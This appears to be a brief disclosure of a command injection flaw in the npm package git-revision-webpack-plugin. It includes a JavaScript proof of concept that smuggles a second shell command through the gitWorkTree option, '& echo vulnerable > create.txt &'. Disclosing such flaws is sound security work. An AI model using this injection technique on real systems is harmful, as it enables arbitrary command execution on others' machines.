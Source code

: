 
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

## Proof of Concept 

```js
// poc.js
var Root = require("git-revision-webpack-plugin"); 
var opt = { "gitWorkTree": "& echo vulnerable > create.txt &" } 
var root = new Root(opt); root.commithash();
```
## References:

- [GitHub Permalink #1](https://github.com/pirelenito/git-revision-webpack-plugin/blob/master/lib/helpers/run-git-command.js#L25)